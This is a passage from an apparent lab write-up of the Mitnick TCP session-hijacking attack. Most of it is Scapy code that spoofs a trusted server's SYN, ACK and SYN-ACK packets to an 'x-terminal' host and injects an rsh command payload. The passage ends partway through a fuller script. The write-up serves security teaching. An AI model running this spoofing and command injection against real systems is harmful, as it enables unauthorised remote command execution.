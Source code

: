 ```python
from random import getrandbits
seq_num = getrandbits(32)
send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='S', seq = seq_num), verbose=0)
seq_num += 1
```

Once x-terminal receives the `SYN` packet, it responds with a `SYN-ACK` packet. We have to respond to this packet with an `ACK` packet. Once we reply, and the TCP session is established, we also need to send the `rsh data`. To test that the exploit works, we'll send a command to create a folder on x-terminal called "xyz" in the `tmp` folder

```python
myLoad = '1024\x00seed\x00seed\x00touch /tmp/xyz\x00'
if pkt[TCP].flags == 'SA':
    ack_no = pkt[TCP].seq + 1
    send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='A', seq = seq_num, ack = ack_no), verbose=0)
    send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='PA', seq = seq_num, ack = ack_no) / Raw(load = myLoad), verbose=0)
    seq_num += len(myLoad)
```

After the first connection has been established, X-Terminal will initiate the second connection. We have to send a `SYN-ACK` response to x-terminal. Once we do this, x-terminal will respond with an `ACK` packet and the TCP session will be established.

```python
from random import getrandbits
seq_num = getrandbits(32)
TCPLen = len(pkt[TCP].payload)
if pkt[TCP].flags == 'S':
    ack_no = pkt[TCP].seq + 1
    send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='SA', seq = seq_num, ack = ack_no), verbose=0)
    seq_num += 1  
```

From the screenshot below, we can see that the attack is successful.

![mitnick-folder](https://github.com/iukadike/iukadike.github.io/assets/58455326/49a21cdf-84eb-4eeb-b94c-6895f6dab415)

<br>

The exploit can be further developed to listen for additional connections like PSH, ACK, or FIN connections as seen below:

##### First connection
```python
#!/usr/bin/env python3
from scapy.all import IP, TCP, Raw, send, sniff
from random import getrandbits

x_ip = "10.9.0.5"              # X-Terminal
x_port = 514                   # Port number used by X-Terminal

srv_ip = "10.9.0.6"            # The trusted server
srv_port = 1023                # Port number used by the trusted server

# Filter for sniffer
myFilter = 'tcp src port 514 && (not ether host 02:42:f7:8f:12:53)'

# Initialize a sequence number
seq_num = getrandbits(32)

def spoof_rply(pkt):
    global seq_num
```